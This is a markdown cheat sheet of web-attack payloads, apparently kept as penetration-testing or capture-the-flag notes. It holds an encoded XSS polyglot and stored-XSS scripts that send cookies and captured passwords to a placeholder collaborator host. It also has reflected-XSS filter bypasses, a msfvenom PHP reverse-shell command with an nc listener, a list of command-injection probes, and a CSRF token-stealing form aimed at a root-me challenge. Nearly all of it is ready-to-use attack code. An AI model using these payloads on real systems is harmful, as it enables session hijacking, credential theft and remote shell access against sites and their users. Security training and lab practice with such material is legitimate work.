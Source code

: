 # XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`
### Stored XSS
#### Steal cookie
`<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>`

#### Capture other users information
`<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">`

### Reflected XSS
#### Reflected XSS into attribute with angle brackets HTML-encoded

`"onmouseover="alert(1)`

#### Reflected DOM XSS

`\"-alert(1)}//`

#### Reflected XSS into HTML context with most tags and attributes blocked

`<$tag$ $attribute$> Using Burp Suite Intruder`

#### Reflected XSS into a JavaScript string with single quote and backslash escaped

`</script><script>alert(1)</script>`

#### Reflected XSS with some SVG markup allowed

`<svg><animatetransform onbegin=alert(1)>`

#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

`\'-alert(1)//`

# RFI
### Shell generation
`msfvenom -p php/reverse_php lport=4444 lhost=<your ip > /path/to/shell`

### Start listen on port
`cd /path/to/shell`

`sudo python3 -m http.server`

`nc -lvp 4444`                 


# Command Injection
Use one of the following commands to test command injection. Or you can use `Burp Suite Intruder` with this [payload](https://github.com/payloadbox/command-injection-payload-list).
### Blind
`ping`

`>` forcing some output && `cat`

`curl` great way

### Verbose
#### Linux
`whoami` || `ls` || `ping` || `sleep` ||  `nc`

#### Windows
`whoami` || `dir` || `ping` || `timeout`

### CSRF Token Bypass
Sample payload for bypassing CSRF Token. Access [this challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

```
<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
                <input id="username" type="text" name="username" value="1337">
                <input id="status" type="checkbox" name="status" checked >
                <input id="token" type="hidden" name="token" value="" />
                <button type="submit">Submit</button>
</form>
<script>

                xhttp = new XMLHttpRequest();
                xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
                xhttp.send();

                // extraction du token
                token_admin = (xhttp.responseText.match(/[abcdef0123456789]{32}/));

                // insertion du token dans notre formulaire
                 document.getElementById('token').setAttribute('value', token_admin)

                // envoi du formulaire
                document.csrf_form.submit();
</script>
```
